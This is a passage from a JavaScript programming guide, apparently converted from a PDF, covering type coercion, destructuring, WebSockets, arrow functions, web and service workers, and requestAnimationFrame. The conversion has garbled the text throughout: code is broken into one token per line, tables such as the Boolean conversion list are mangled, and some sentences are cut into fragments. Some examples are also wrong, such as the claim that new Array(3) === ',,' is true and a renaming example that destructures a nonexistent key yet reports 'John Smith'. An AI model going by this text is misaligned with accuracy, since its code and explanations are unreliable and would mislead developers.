screen

.

pixelDepth

,

colorDepth

=

window.

screen

.

colorDepth

;

# Chapter 59: Variable coercion/conversion

## Section 59.1: Double Negation (!!x)

The double-negation !! is not a distinct JavaScript operator nor a
special syntax but rather just a sequence of two negations. It is used
to convert the value of any type to its appropriate **true** or
**false** Boolean value depending on whether it is *truthy* or
*falsy*.

!!

1

*// true*

!!

0

*// false*

!!

**undefined**

*// false*

!!

{

}

*// true*

!!

\[

\]

*// true*

The first negation converts any value to **false** if it is *truthy*
and to **true** if is *falsy*. The second negation then operates on a
normal Boolean value. Together they convert any *truthy* value to
**true** and any *falsy* value to **false**.
>
However, many professionals consider the practice of using such syntax
unacceptable and recommend simpler to read alternatives, even if
they\'re longer to write:
>
x !== 0 *// instead of !!x in case x is a number*
>
x != **null** *// instead of !!x in case x is an object, a string, or
an undefined*

  
  !!
  

  

Usage of x is considered poor practice due to the following reasons:

1.  Stylistically it may look like a distinct special syntax whereas in
    fact it is not doing anything other than two consecutive negations
    with implicit type conversion.

2.  It is better to provide information about types of values stored in
    variables and properties through the code.

  
  x !==     0 says that x is probably a number, whereas                !!
    

  

For example, x does not convey any such advantage to readers of the
code.

  
  Boolean
  

  

3.  Usage of (x) allows for similar functionality, and is a more
    explicit conversion of type.

## Section 59.2: Implicit conversion

JavaScript will try to automatically convert variables to more
appropriate types upon use. It\'s usually advised to do conversions
explicitly (see other examples), but it\'s still worth knowing what
conversions take place implicitly.
>
\"1\" + 5 === \"15\" *// 5 got converted to string.*
>
1 + \"5\" === \"15\" *// 1 got converted to string.* 1 - \"5\" === -4
*// \"5\" got converted to a number.* alert({}) *// alerts \"\[object
Object\]\", {} got converted to string.*

!0 === **true** *// 0 got converted to boolean* **if** (\"hello\") {}
*// runs, \"hello\" got converted to boolean.* **new** Array(3) ===
\",,\"; *// Return true. The array is converted to string -
Array.toString();* Some of the trickier parts:

!\"0\" === **false** *// \"0\" got converted to true, then reversed.*
>
!\"false\" === **false** *// \"false\" converted to true, then
reversed.*

## Section 59.3: Converting to boolean

  -
  Boolean                                       (      \...
  -  

  -

) will convert any data type into either **true** or **false**.

Boolean

(

\"true\"

)

===

**true**

Boolean

(

\"false\"

)

===

**true**

Boolean

(

\-

1

)

===

**true**

Boolean

(

1

)

===

**true**

Boolean

(

0

)

===

**false**

Boolean

(

\"\"

)

===

**false**

Boolean

(

\"1\"

)

===

**true**

Boolean

(

\"0\"

)

===

**true**

Boolean

(

{

}

)

===

**true**

Boolean

(

\[

\]

)

===

**true**

Empty strings and the number 0 will be converted to false, and all
others will be converted to true.
>
A shorter, but less clear, form:

!!

\"true\"

===

**true**

!!

\"false\"

===

**true**

!!-

1

===

**true**

!!

1

===

**true**

!!

0

===

**false**

!!

\"\"

===

**false**

!!

\"1\"

===

**true**

!!

\"0\"

===

**true**

!!

{

}

===

**true**

!!

\[

\]

===

**true**

This shorter form takes advantage of implicit type conversion using
the logical NOT operator twice, as described in
http://stackoverflow.com/documentation/javascript/208/boolean-logic/3047/double-negation-x
>
Here is the complete list of boolean conversions from the [ECMAScript
specification](http://www.ecma-international.org/publications/files/ECMA-ST/Ecma-262.pdf)

  
  Boolean              (   myArg          )   === **false**
      

  

  
  Boolean              (   myArg          )   === myArg
      

  

  
  Boolean              (   myArg          )   === **false**
      

  

  
  Boolean              (   myArg          )   === **false**
      

  

  
  Boolean               (   myArg           )   === **true**
      

  

if myArg of type **undefined** or **null** then if myArg of type
boolean then
>
if myArg of type number then if myArg is +0, ‑0, or **NaN**; otherwise
**true** if myArg of type string then if myArg is the empty String
(its length is zero); otherwise **true**
>
if myArg of type symbol or object then
>
Values that get converted to **false** as booleans are called *falsy*
(and all others are called *truthy*). See Comparison Operations.

## Section 59.4: Converting a string to a number

Number

(

\'0\'

)

===

0

  -
  Number                                     (       \'0\'
  - - 

  -

) will convert the string (\'0\') into a number (0)
>
A shorter, but less clear, form:

\+

\'0\'

===

0

The unary + operator does nothing to numbers, but converts anything
else to a number.

  -
  12           )      ===                              \-     12
    -  

  -

Interestingly, +(-.

parseInt

(

\'0\'

,

10

)

===

0

  
  parseInt                            (    \'0\'         ,    10
    -  -

  

) will convert the string (\'0\') into a number (0), don\'t forget the
second argument, which is radix.

If not given, parseInt could convert string to wrong number.

## Section 59.5: Converting a number to a string

String

(

0

)

===

\'0\'

  
  String
  

  

\(0\) will convert the number (0) into a string (\'0\').
>
A shorter, but less clear, form:

\'\'

\+

0

===

\'0\'

## Section 59.6: Primitive to Primitive conversion table

  
  **Value Converted                                        
  To String                                                
  Converted To                                             
  Number Converted                                         
  To Boolean**                                             
   -  -
  undefinded                           NaN                 false
  \"undefined\"                                            

  null \"null\"                        0                   false

  true \"true\"                        1                   

  false \"false\"                      0                   

  NaN \"NaN\"                                              **false**

  \"\" empty string                    0                   **false**

  \" \"                                0                   **true**

  \"2.4\" (numeric)                    2.4                 true

  \"test\" (non                        NaN                 true
  numeric                                                  

  \"0\"                                0                   **true**

  \"1\"                                1                   true

  -0                \"0\"                                  **false**

  0                 \"0\"                                  false

  1                 \"1\"                                  true

  Infinity          \"Infinity\"                           true

  -Infinity         \"-Infinity\"                          true

  \[\]              \"\"               0                   true

  \[3\]             \"3\"              3                   true

  \[\'a\'\]         \"a\"              NaN                 true

  \[\'a\',\'b\'\]   \"a,b\"            NaN                 true

  { }               \"\[object         NaN                 true
                    Object\]\"                             

  function(){}      \"function(){}\"   NaN                 true
  

Bold values highlight conversion that programmers may find surprising
>
To convert explicitly values you can use String() Number() Boolean()

## Section 59.7: Convert an array to a string

  -
  Array             .   join           (   separator
      

  -

) can be used to output an array as a string, with a configurable
separator.
>
Default (separator = \",\"):

\[

\"a\"

,

\"b\"

,

\"c\"

\]

.

join

(

)

===

\"a,b,c\"

With a string separator:

\[

1

,

2

,

3

,

4

\]

.

join

(

\" + \"

)

===

\"1 + 2 + 3 + 4\"

With a blank separator:

\[

\"B\"

,

\"o\"

,

\"b\"

\]

.

join

(

\"\"

)

===

\"Bob\"

## Section 59.8: Array to String using array methods

This way may seem to be useless because you are using anonymous
function to accomplish something that you can do it with join(); But
if you need to make something to the strings while you are converting
the Array to String, this can be useful.

**var**

arr

=

\[

\'a\'

,

\'

á

\'

,

\'b\'

,

\'c\'

\]

**function**

upper_lower

(

a

,

b

,

i

)

{

*//\...do something here*

b

=

i

&

1

?

b\.

toUpperCase

(

)

:

b\.

toLowerCase

(

)

;

**return**

a

\+

\',\'

\+

b

}

arr

=

arr.

reduce

(

upper_lower

)

;

*// \"a,*

Á

*,b,C\"*

## Section 59.9: Converting a number to a boolean

Boolean

(

0

)

===

**false**

  
  Boolean(
  

  

0\) will convert the number 0 into a boolean **false**.
>
A shorter, but less clear, form:

!!

0

===

**false**

## Section 59.10: Converting a string to a boolean

To convert a string to boolean use

Boolean

(

myString

)

or the shorter but less clear form

!!

myString

All strings except the empty string (of length zero) are evaluated to
**true** as booleans.

Boolean

(

\'\'

)

===

**false**

*// is true*

Boolean

(

\"\"

)

===

**false**

*// is true*

Boolean

(

\'0\'

)

===

**false**

*// is false*

Boolean

(

\'any_nonempty_string\'

)

===

**true**

*// is true*

## Section 59.11: Integer to Float

In JavaScript, all numbers are internally represented as floats. This
means that simply using your integer as a float is all that must be
done to convert it.

## Section 59.12: Float to Integer

To convert a float to an integer, JavaScript provides multiple
methods.
>
The floor function returns the first integer less than or equal to the
float.

Math

.

floor

(

5.7

)

;

*// 5*

The ceil function returns the first integer greater than or equal to
the float.

Math

.

ceil

(

5.3

)

;

*// 6*

The round function rounds the float.

Math

.

round

(

3.2

)

;

*// 3*

Math

.

round

(

3.6

)

;

*// 4*

Version

≥

6

Truncation (trunc) removes the decimals from the float.

Math

.

trunc

(

3.7

)

;

*// 3*

Notice the difference between truncation (trunc) and floor:

Math

.

floor

(

\-

3.1

)

;

*// -4*

Math

.

trunc

(

\-

3.1

)

;

*// -3*

## Section 59.13: Convert string to float

parseFloat accepts a string as an argument which it converts to a
float/

parseFloat

(

\"10.01\"

)

*// = 10.01*

# Chapter 60: Destructuring assignment

Destructuring is a **pattern matching** technique that is added to
JavaScript recently in ECMAScript 6.
>
It allows you to bind a group of variables to a corresponding set of
values when their pattern matches to the right hand-side and the left
hand-side of the expression.

## Section 60.1: Destructuring Objects

Destructuring is a convenient way to extract properties from objects
into variables.
>
Basic syntax:

**let**

person

=

{

name

:

\'Bob\'

,

age

:

25

}

;

**let**

{

name

,

age

}

=

person

;

*// Is equivalent to*

**let**

name

=

person.

name

;

*// \'Bob\'*

**let**

age

=

person.

age

;

*// 25*

Destructuring and renaming:

**let**

person

=

{

name

:

\'Bob\'

,

age

:

25

}

;

**let**

{

name

:

firstName

}

=

person

;

*// Is equivalent to*

**let**

firstName

=

person.

name

;

*// \'Bob\'*

Destructuring with default values:

**let**

person

=

{

name

:

\'Bob\'

,

age

:

25

}

;

**let**

{

phone

=

\'123-456-789\'

}

=

person

;

*// Is equivalent to*

**let**

phone

=

person.

hasOwnProperty

(

\'phone\'

)

?

person.

phone

:

\'123-456-789\'

;

*// \'123-456-789\'*

Destructuring and renaming with default values

**let**

person

=

{

name

:

\'Bob\'

,

age

:

25

}

;

**let**

{

phone

:

p

=

\'123-456-789\'

}

=

person

;

*// Is equivalent to*
>
**let** p = person.hasOwnProperty(\'phone\') ? person.phone :
\'123-456-789\'; *// \'123-456-789\'*

## Section 60.2: Destructuring function arguments

Pull properties from an object passed into a function. This pattern
simulates named parameters instead of relying on argument position.

**let**

user

=

{

name

:

\'Jill\'

,

age

:

33

,

profession

:

\'Pilot\'

}

**function**

greeting

(

{

name

,

profession

}

)

{

console.

log

(

\`Hello

,

\$

{

name

}

the \$

{

profession

}

\`

)

}

greeting

(

user

)

This also works for arrays:

**let**

parts

=

\[

\"Hello\"

,

\"World!\"

\]

;

**function**

greeting

(

\[

first

,

second

\]

)

{

console.

log

(

\`\$

{

first

}

\$

{

second

}

\`

)

;

}

## Section 60.3: Nested Destructuring

We are not limited to destructuring an object/array, we can
destructure a nested object/array.

***Nested Object Destructuring***

**var**

obj

=

{

a

:

{

c

:

1

,

d

:

3

}

,

b

:

2

}

;

**var**

{

a

:

{

c

:

x

,

d

:

y

}

,

b

:

z

}

=

obj

;

console.

log

(

x

,

y

,

z

)

;

*// 1,3,2*

***Nested Array Destructuring***

**var**

arr

=

\[

1

,

2

,

\[

3

,

4

\]

,

5

\]

;

**var**

\[

a

,

,

\[

b

,

c

\]

,

d

\]

=

arr

;

console.

log

(

a

,

b

,

c

,

d

)

;

*// 1 3 4 5*

Destructuring is not just limited to a single pattern, we can have
arrays in it, with n-levels of nesting. Similarly we can destructure
arrays with objects and vice-versa.

***Arrays Within Object***

**var**

obj

=

{

a

:

1

,

b

:

\[

2

,

3

\]

}

;

**var**

{

a

:

x1

,

b

:

\[

x2

,

x3

\]

}

=

obj

;

console.

log

(

x1

,

x2

,

x3

)

;

*// 1 2 3*

***Objects Within Arrays***

**var**

arr

=

\[

1

,

2

,

{

a

:

3

}

,

4

\]

;

**var**

\[

x1

,

x2

,

{

a

:

x3

}

,

x4

\]

=

arr

;

console.

log

(

x1

,

x2

,

x3

,

x4

)

;

## Section 60.4: Destructuring Arrays

**const**

myArr

=

\[

\'one\'

,

\'two\'

,

\'three\'

\]

**const**

\[

a

,

b

,

c

\]

=

myArr

*// a = \'one\', b = \'two, c = \'three\'*

We can set default value in destructuring array, see the example of
Default Value While Destructuring.
>
With destructuring array, we can swap the values of 2 variables
easily:

**var**

a

=

1

;

**var**

b

=

3

;

\[

a

,

b

\]

=

\[

b

,

a

\]

;

*// a = 3, b = 1*

We can specify empty slots to skip unneeded values:

\[

a

,

,

b

\]

=

\[

1

,

2

,

3

\]

*// a = 1, b = 3*

## Section 60.5: Destructuring inside variables

Aside from destructuring objects into function arguments, you can use
them inside variable declarations as follows:

**const**

person

=

{

name

:

\'John Doe\'

,

age

:

45

,

location

:

\'Paris, France\'

,

}

;

**let** { name, age, location } = person;
>
console.log(\'I am \' + name + \', aged \' + age + \' and living in
\' + location + \'.\');
>
*// -\\"I am John Doe aged 45 and living in Paris, France.\"*
>
As you can see, three new variables were created: name, age and
location and their values were grabbed from the object person if they
matched key names.

## Section 60.6: Default Value While Destructuring

We often encounter a situation where a property we\'re trying to
extract doesn\'t exist in the object/array, resulting in a TypeError
(while destructuring nested objects) or being set to **undefined**.
While destructuring we can set a default value, which it will fallback
to, in case of it not being found in the object.

**var**

obj

=

{

a

:

1

}

;

**var**

{

a

:

x

,

b

:

x1

=

10

}

=

obj

;

console.

log

(

x

,

x1

)

;

*// 1, 10*

**var**

arr

=

\[

\]

;

**var**

\[

a

=

5

,

b

=

10

,

c

\]

=

arr

;

console.

log

(

a

,

b

,

c

)

;

*// 5, 10, undefined*

## Section 60.7: Renaming Variables While Destructuring

Destructuring allows us to refer to one key in an object, but declare
it as a variable with a different name. The syntax looks like the
key-value syntax for a normal JavaScript object.

**let**

user

=

{

name

:

\'John Smith\'

,

id

:

10

,

email

:

\'johns@workcorp.com\'

,

}

;

**let**

{

user

:

userName

,

id

:

userId

}

=

user

;

console.

log

(

userName

)

*// John Smith*

console.

log

(

userId

)

*// 10*

# Chapter 61: WebSockets

**Parameter Details**

url The server url supporting this web socket connection. data The
content to send to the host. message The message received from the
host.
>
WebSocket is protocol, which enables two-way communication between a
client and server:
>
The goal WebSocket is to provide a mechanism for browser-based
applications that need two-way communication with servers that does
not rely on opening multiple HTTP connections. ([RFC
6455](https://tools.ietf.org/html/rfc6455))
>
WebSocket works over HTTP protocol.

## Section 61.1: Working with string messages

**var**

wsHost

=

\"ws://my-sites-url.com/path/to/echo-web-socket-handler\"

;

**var**

ws

=

**new**

WebSocket

(

wsHost

)

;

**var**

value

=

\"an example message\"

;

*//onmessage : Event Listener - Triggered when we receive message form
server*

ws.

onmessage

=

**function**

(

message

)

{

**if**

(

message

===

value

)

{

console.

log

(

\"The echo host sent the correct message.\"

)

;

}

**else**

{

console.

log

(

\"Expected: \"

\+

value

)

;

console.

log

(

\"Received: \"

\+

message

)

;

}

}

;

*//onopen : Event Listener - event is triggered when websockets
readyState changes to open which means*

*now we are ready to send and receives messages from server*

ws.

onopen

=

**function**

(

)

{

*//send is used to send the message to server*

ws.

send

(

value

)

;

}

;

## Section 61.2: Establish a web socket connection

**var**

wsHost

=

\"ws://my-sites-url.com/path/to/web-socket-handler\"

;

**var**

ws

=

**new**

WebSocket

(

wsHost

)

;

## Section 61.3: Working with binary messages

**var**

wsHost

=

\"http://my-sites-url.com/path/to/echo-web-socket-handler\"

;

**var**

ws

=

**new**

WebSocket

(

wsHost

)

;

**var**

buffer

=

**new**

ArrayBuffer

(

5

)

;

*// 5 byte buffer*

**var**

bufferView

=

**new**

DataView

(

buffer

)

;

bufferView.

setFloat32

(

0

,

Math

.

PI

)

;

bufferView.

setUint8

(

4

,

127

)

;

ws.

binaryType

=

\'arraybuffer\'

;

ws.

onmessage

=

**function**

(

message

)

{

**var**

view

=

**new**

DataView

(

message.

data

)

;

console.

log

(

\'Uint8:\'

,

view.

getUint8

(

4

)

,

\'Float32:\'

,

view.

getFloat32

(

0

)

)

}

;

ws.

onopen

=

**function**

(

)

{

ws.

send

(

buffer

)

;

}

;

## Section 61.4: Making a secure web socket connection

**var**

sck

=

\"wss://site.com/wss-handler\"

;

**var**

wss

=

**new**

WebSocket

(

sck

)

;

This uses the wss instead of ws to make a secure web socket connection
which make use of HTTPS instead of HTTP

# Chapter 62: Arrow Functions

Arrow functions are a concise way of writing anonymous, lexically
scoped functions in [ECMAScript 2015
(ES6)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/New_in_JavaScript/ECMAScript_2015_support_in_Mozilla).

## Section 62.1: Introduction

In JavaScript, functions may be anonymously defined using the
\"arrow\" (=\>) syntax, which is sometimes referred to as a *lambda
expression* due to Common Lisp similarities.
>
The simplest form of an arrow function has its arguments on the left
side of =\and the return value on the right side:

item

=\>

item

\+

1

*// -\function(item){return item + 1}*

This function can be immediately invoked by providing an argument to
the expression:

(

item

=\>

item

\+

1

)

(

41

)

*// -\42*

If an arrow function takes a single parameter, the parentheses around
that parameter are optional. For example, the following expressions
assign the same type of function into constant variables:

**const**

foo

=

bar

=\>

bar

\+

1

;

**const**

bar

=

(

baz

)

=\>

baz

\+

1

;

However, if the arrow function takes no parameters, or more than one
parameter, a new set of parentheses *must* encase all the arguments:

(

(

)

=\>

\"foo\"

)

(

)

*// -\\"foo\"*

(

(

bow

,

arrow

)

=\>

bow

\+

arrow

)

(

\'I took an arrow \'

,

\'to the knee\...\'

)

*// -\\"I took an arrow to the knee\...\"*

If the function body doesn\'t consist of a single expression, it must
be surrounded by brackets and use an explicit **return** statement for
providing a result:

(

bar

=\>

{

**const**

baz

=

41

;

**return**

bar

\+

baz

;

}

)

(

1

)

;

*// -\42*

If the arrow function\'s body consists only of an object literal, this
object literal has to be enclosed in parentheses:

(

bar

=\>

(

{

baz

:

1

}

)

)

(

)

;

*// -\Object {baz: 1}*

The extra parentheses indicate that the opening and closing brackets
are part of the object literal, i.e. they are not delimiters of the
function body.

## Section 62.2: Lexical Scoping & Binding (Value of \"this\")

Arrow functions are [lexically
scoped](http://stackoverflow.com/questions/1047454/what-is-lexical-scope);
this means that their **this** Binding is bound to the context of the
surrounding scope. That is to say, whatever **this** refers to can be
preserved by using an arrow function.
>
Take a look at the following example. The class Cow has a method that
allows for it to print out the sound it makes after 1 second.

class

Cow

{

constructor

(

)

{

**this**

.

sound

=

\"moo\"

;

}

makeSoundLater

(

)

{

setTimeout

(

(

)

=\>

console.

log

(

**this**

.

sound

)

,

1000

)

;

}

}

**const**

betsy

=

**new**

Cow

(

)

;

betsy.

makeSoundLater

(

)

;

  
  makeSoundLater
  

  

  
  betsy.makeSoundLater
  

  

In the () method, the **this** context refers to the current instance
of the Cow object, so in the case where I call (), the **this**
context refers to betsy.

  -
  **this**                     .       sound
   - 

  -

By using the arrow function, I *preserve* the **this** context so that
I can make reference to when it comes time to print it out, which will
properly print out \"moo\".
>
If you had used a regular function in place of the arrow function, you
would lose the context of being within the class, and not be able to
directly access the sound property.

## Section 62.3: Arguments Object

Arrow functions do not expose an arguments object; therefore,
arguments would simply refer to a variable in the current scope.

**const**

arguments

=

\[

**true**

\]

;

**const**

foo

=

x

=\>

console.

log

(

arguments

\[

0

\]

)

;

foo

(

**false**

)

;

*// -\true*

Due to this, arrow functions are also **not** aware of their
caller/callee.
>
While the lack of an arguments object can be a limitation in some edge
cases, rest parameters are generally a suitable alternative.

**const**

arguments

=

\[

**true**

\]

;

**const**

foo

=

(

\...

arguments

)

=\>

console.

log

(

arguments

\[

0

\]

)

;

foo

(

**false**

)

;

*// -\false*

## Section 62.4: Implicit Return

Arrow functions may implicitly return values by simply omitting the
curly braces that traditionally wrap a function\'s body if their body
only contains a single expression.

**const**

foo

=

x

=\>

x

\+

1

;

foo

(

1

)

;

*// -\2*

When using implicit returns, object literals must be wrapped in
parenthesis so that the curly braces are not mistaken for the opening
of the function\'s body.
>
**const** foo = () =\{ bar: 1 } *// foo() returns undefined*
**const** foo = () =\({ bar: 1 }) *// foo() returns {bar: 1}*

## Section 62.5: Arrow functions as a constructor

Arrow functions will throw a TypeError when used with the **new**
keyword.

**const**

foo

=

**function**

(

)

{

**return**

\'foo\'

;

}

**const**

a

=

**new**

foo

(

)

;

**const**

bar

=

(

)

=\>

{

**return**

\'bar\'

;

}

**const**

b

=

**new**

bar

(

)

;

*// -\Uncaught TypeError: bar is not a constructor\...*

## Section 62.6: Explicit Return

Arrow functions can behave very similar to classic functions in that
you may explicitly return a value from them using the **return**
keyword; simply wrap your function\'s body in curly braces, and return
a value:

**const**

foo

=

x

=\>

{

**return**

x

\+

1

;

}

foo

(

1

)

;

*// -\2*

# Chapter 63: Workers

## Section 63.1: Web Worker

A web worker is a simple way to run scripts in background threads as
the worker thread can perform tasks (including I/O tasks using
XMLHttpRequest) without interfering with the user interface. Once
created, a worker can send messages which can be different data types
(except functions) to the JavaScript code that created it by posting
messages to an event handler specified by that code (and vice versa.)
>
Workers can be created in a few ways.
>
The most common is from a simple URL:

**var**

webworker

=

**new**

Worker

(

\"./path/to/webworker.js\"

)

;

  
  URL.createObjectURL
  

  

It\'s also possible to create a Worker dynamically from a string using
():

**var**

workerData

=

\"function someFunction() {}; console.log(\'More code\');\"

;

**var**

blobURL

=

URL.

createObjectURL

(

**new**

Blob

(

\[

\"(\"

\+

workerData

\+

\")\"

\]

,

{

type

:

\"text/javascript\"

}

)

)

;

**var**

webworker

=

**new**

Worker

(

blobURL

)

;

  -
  Function                          .    toString
    

  -

The same method can be combined with () to create a worker from an
existing function:

**var**

workerFn

=

**function**

(

)

{

console.

log

(

\"I was run\"

)

;

}

;

**var**

blobURL

=

URL.

createObjectURL

(

**new**

Blob

(

\[

\"(\"

\+

workerFn.

toString

(

)

\+

\")\"

\]

,

{

type

:

\"text/javascript\"

}

)

)

;

**var**

webworker

=

**new**

Worker

(

blobURL

)

;

## Section 63.2: A simple service worker

**main.js**
>
A service worker is an event-driven worker registered against an
origin and a path. It takes the form of a JavaScript file that can
control the web page/site it is associated with, intercepting and
modifying navigation and resource requests, and caching resources in a
very granular fashion to give you complete control over how your app
behaves in certain situations (the most obvious one being when the
network is not available.)
>
Source:
[MDN](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API)
>
**Few Things:**

1.  It\'s a JavaScript Worker, so it can\'t access the DOM directly

2.  It\'s a programmable network proxy

3.  It will be terminated when not in use and restarted when it\'s next
    needed

4.  A service worker has a lifecycle which is completely separate from
    your web page

5.  HTTPS is Needed

  
  **\<script**
  

  

This code that will be executed in the Document context, (or) this
JavaScript will be included in your page via a **\>** tag.

*// we check if the browser supports ServiceWorkers*

**if**

(

\'serviceWorker\'

**in**

navigator

)

{

navigator

.

serviceWorker

.

register

(

*// path to the service worker file*

\'sw.js\'

)

*// the registration is async and it returns a promise*

.

then

(

**function**

(

reg

)

{

console.

log

(

\'Registration Successful\'

)

;

}

)

;

}

**sw.js**
>
This is the service worker code and is executed in the [ServiceWorker
Global
Scope](https://developer.mozilla.org/en-US/docs/Web/API/ServiceWorkerGlobalScope).

self.

addEventListener

(

\'fetch\'

,

**function**

(

event

)

{

*// do nothing here, just log all the network requests*

console.

log

(

event.

request

.

url

)

;

}

)

;

## Section 63.3: Register a service worker

*// Check if service worker is available.*

**if**

(

\'serviceWorker\'

**in**

navigator

)

{

navigator.

serviceWorker

.

register

(

\'/sw.js\'

)

.

then

(

**function**

(

registration

)

{

console.

log

(

\'SW registration succeeded with scope:\'

,

registration.

scope

)

;

}

)

.

**catch**

(

**function**

(

e

)

{

console.

log

(

\'SW registration failed with error:\'

,

e

)

;

}

)

;

}

You can call

register

(

)

on every page load. If the SW is already registered, the browser
provides you with

instance that is already running

The SW file can be any name.

sw.

js

is common.

The location of the SW file is important because it defines the SW\'s
scope. For example, an SW file at

  -
  js   /   sw.js   can only intercept fetch requests for files that begin with js
                   /                                                           
    - - 

  -

//. For this reason you usually see the

SW file at the top-level directory of the project.

## Section 63.4: Communicating with a Web Worker

Since workers run in a separate thread from the one that created them,
communication needs to happen via postMessage.
>
**Note:** Because of the different export prefixes, some browsers have
webkitPostMessage instead of postMessage. You should override
postMessage to make sure workers \"work\" (no pun intended) in the
most places possible: worker.postMessage = (worker.webkitPostMessage
\|\| worker.postMessage);
>
From the main thread (parent window):

*// Create a worker*

**var**

webworker

=

**new**

Worker

(

\"./path/to/webworker.js\"

)

;

*// Send information to worker*

webworker.

postMessage

(

\"Sample message\"

)

;

*// Listen for messages from the worker*

webworker.

addEventListener

(

\"message\"

,

**function**

(

event

)

{

*// \`event.data\` contains the value or object sent from the worker*

console.

log

(

\"Message from worker:\"

,

event.

data

)

;

*// \[\"foo\", \"bar\", \"baz\"\]*

}

)

;

  
  webworker.js
  

  

From the worker, in :

*// Send information to the main thread (parent window)*

self.

postMessage

(

\[

\"foo\"

,

\"bar\"

,

\"baz\"

\]

)

;

*// Listen for messages from the main thread*

self.

addEventListener

(

\"message\"

,

**function**

(

event

)

{

*// \`event.data\` contains the value or object sent from main*

console.

log

(

\"Message from parent:\"

,

event.

data

)

;

*// \"Sample message\"*

}

)

;

Alternatively, you can also add event listeners using onmessage:
>
From the main thread (parent window):

webworker.

onmessage

=

**function**

(

event

)

{

console.

log

(

\"Message from worker:\"

,

event.

data

)

;

*// \[\"foo\", \"bar\", \"baz\"\]*

}

  
  webworker.js
  

  

From the worker, in :

self.

onmessage

=

**function**

(

event

)

{

console.

log

(

\"Message from parent:\"

,

event.

data

)

;

*// \"Sample message\"*

}

## Section 63.5: Terminate a worker

Once you are done with a worker you should terminate it. This helps to
free up resources for other applications on the user's computer.

*Main Thread:*

*// Terminate a worker from your application.*

worker.

terminate

(

)

;

*Note*: The terminate method is not available for service workers. It
will be terminated when not in use, and restarted when it\'s next
needed.

*Worker Thread:*

*// Have a worker terminate itself.*

self.

close

(

)

;

## Section 63.6: Populating your cache

After your service worker is registered, the browser will try to
install & later activate the service worker.
>
**Install event listener**

**this**

.

addEventListener

(

\'install\'

,

**function**

(

event

)

{

console.

log

(

\'installed\'

)

;

}

)

;

**Caching**
>
One can use this install event returned to cache the assets needed to
run the app offline. Below example uses the cache api to do the same.

**this**

.

addEventListener

(

\'install\'

,

**function**

(

event

)

{

event.

waitUntil

(

caches.

open

(

\'v1\'

)

.

then

(

**function**

(

cache

)

{

**return**

cache.

addAll

(

\[

*/\* Array of all the assets that needs to be cached \*/*

\'/css/style.css\'

,

\'/js/app.js\'

,

\'/images/snowTroopers.jpg\'

\]

)

;

}

)

)

;

}

)

;

## Section 63.7: Dedicated Workers and Shared Workers

**Dedicated Workers**
>
A dedicated web worker is only accessible by the script that called
it.
>
Main application:

**var**

worker

=

**new**

Worker

(

\'worker.js\'

)

;

worker.

addEventListener

(

\'message\'

,

**function**

(

msg

)

{

console.

log

(

\'Result from the worker:\'

,

msg.

data

)

;

}

)

;

worker.

postMessage

(

\[

2

,

3

\]

)

;

worker.js:

self.

addEventListener

(

\'message\'

,

**function**

(

msg

)

{

console.

log

(

\'Worker received arguments:\'

,

msg.

data

)

;

self.

postMessage

(

msg.

data

\[

0

\]

\+

msg.

data

\[

1

\]

)

;

}

)

;

**Shared Workers**
>
A shared worker is accessible by multiple scripts  even if they are
being accessed by different windows, iframes or even workers.
>
Creating a shared worker is very similar to how to create a dedicated
one, but instead of the straight-forward communication between the
main thread and the worker thread, you\'ll have to communicate via a
port object, i.e., an explicit port has to be opened so multiple
scripts can use it to communicate with the shared worker. (Note that
dedicated workers do this implicitly) Main application

**var**

myWorker

=

**new**

SharedWorker

(

\'worker.js\'

)

;

myWorker.

port

.

start

(

)

;

*// open the port connection*

myWorker.

port

.

postMessage

(

\[

2

,

3

\]

)

;

worker.js

self.

port

.

start

(

)

;

open the port connection to enable two

\-

way communication

self.

onconnect

=

**function**

(

e

)

{

**var**

port

=

e\.

ports

\[

0

\]

;

*// get the port*

port.

onmessage

=

**function**

(

e

)

{

console.

log

(

\'Worker received arguments:\'

,

e\.

data

)

;

port.

postMessage

(

e\.

data

\[

0

\]

\+

e\.

data

\[

1

\]

)

;

}

}

  
  port.start
  

  

Note that setting up this message handler in the worker thread also
implicitly opens the port connection back to the parent thread, so the
call to () is not actually needed, as noted above.

# Chapter 64: requestAnimationFrame

**Parameter Details**

\"A parameter specifying a function to call when it\'s time to update
your animation for the next callback
>
repaint.\"
(<https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame)>

## Section 64.1: Use requestAnimationFrame to fade in element

**View jsFiddle**: <https://jsfiddle.net/HimmatChahal/jb5trg67/>
**Copy + Pasteable code below**:
>
**\<html\>**
>
**\<body\>**
>
**\<h1\>**This will fade in at 60 frames per second (or as close to
possible as your hardware allows)**\</h1\>**
>
**\<script\>** // Fade in over 2000 ms = 2 seconds.
>
var FADE_DURATION = 2.0 \* 1000;
>
// -1 is simply a flag to indicate if we are rendering the very 1st
frame var startTime=-1.0;
>
// Function to render current frame (whatever frame that may be)
function render(currTime) { var head1 =
document.getElementsByTagName(\'h1\')\[0\];
>
// How opaque should head1 be? Its fade started at currTime=0.
>
// Over FADE_DURATION ms, opacity goes from 0 to 1 var opacity =
(currTime/FADE_DURATION); head1.style.opacity = opacity; }
>
// Function to function eachFrame() {
>
// Time that animation has been running (in ms)
>
// Uncomment the console.log function to view how quickly // the
timeRunning updates its value (may affect performance) var timeRunning
= (new Date()).getTime() - startTime; //console.log(\'var timeRunning
= \'+timeRunning+\'ms\'); if (startTime \< 0) {
>
// This branch: executes for the first frame only. // it sets the
startTime, then renders at currTime = 0.0 startTime = (new
Date()).getTime(); render(0.0);
>
} else if (timeRunning \< FADE_DURATION) {
>
// This branch: renders every frame, other than the 1st frame,
>
// with the new timeRunning value. render(timeRunning); } else {
return; }
>
// Now we are done rendering one frame.
>
// So we make a request to the browser to execute the next
>
// animation frame, and the browser optimizes the rest.
>
// This happens very rapidly, as you can see in the console.log();
window.requestAnimationFrame(eachFrame);
>
};

// start the animation

window.requestAnimationFrame

(

eachFrame

)

;

**\<**

**/script**

**\>**

**\<**

**/body**

**\>**

**\<**

**/html**

**\>**

## Section 64.2: Keeping Compatibility

Of course, just like most things in browser JavaScript, you just
can\'t count on the fact that everything will be the same everywhere.
In this case, requestAnimationFrame might have a prefix on some
platforms and are named differently, such as
webkitRequestAnimationFrame. Fortunately, there\'s a really easy way
to group all the known differences that could exist down to 1
function:

window.

requestAnimationFrame

=

(

**function**

(

)

{

**return**

window.

requestAnimationFrame

\|\|

window.

webkitRequestAnimationFrame

\|\|

window.

mozRequestAnimationFrame

\|\|

**function**

(

callback

)

{

window.

setTimeout

(

callback

,

1000

/

60

)

;

}

;
